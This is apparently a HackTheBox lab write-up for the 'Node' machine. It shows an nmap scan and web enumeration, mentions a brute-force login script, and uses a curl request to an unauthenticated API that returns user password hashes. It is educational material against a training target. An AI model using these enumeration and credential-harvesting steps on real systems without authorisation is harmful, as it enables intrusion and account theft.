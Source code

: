 # Node | HackTheBox

### 1. Scan
```
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-eolbqcu7pq]─[~]
└──╼ [★]$ sudo nmap -A -p- -T4 10.129.71.65
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-29 02:16 UTC
Nmap scan report for 10.129.71.65
Host is up (0.22s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE            VERSION
22/tcp   open  ssh                OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-tasktracker Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: /login
| hadoop-tasktracker-info: 
|_  Logs: /login
|_http-title: MyPlace
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%), Linux 4.4 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   221.35 ms 10.10.14.1
2   222.80 ms 10.129.71.65

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 215.25 seconds
```
The machine is running SSH and Apache Hardoop on port 3000.

### 2. Enumeration
Going to the HTTP site on the Hardoop port shows a budding social media website called "MyPlace". The front page shows there are three new members: tom, mark and rastating.  
Running a dirbust against the site can be done by specifying a bad string in the response since every request returns 200, but nothing of any real interest is discovered.  
There is a login page - I create a script to conduct a wordlist attack on the login form since there is no protection against bruteforce (see loginattack.py).
```bash

```
Taking a look at the site in Burpsuite, the pages are retrieving information from several endpoints. One is used to the the list of latest users: `/api/users/latest`.  
By changing this to `/api/users` the response returns a list of users and their password hashes.
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-eolbqcu7pq]─[~/writeups/HackTheBox/HTB_Node]
└──╼ [★]$ curl --silent http://10.129.71.65:3000/api/users | jq
[
  {
    "_id": "59a7365b98aa325cc03ee51c",
    "username": "myP14ceAdm1nAcc0uNT",
    "password": "dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
    "is_admin": true
  },
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
```
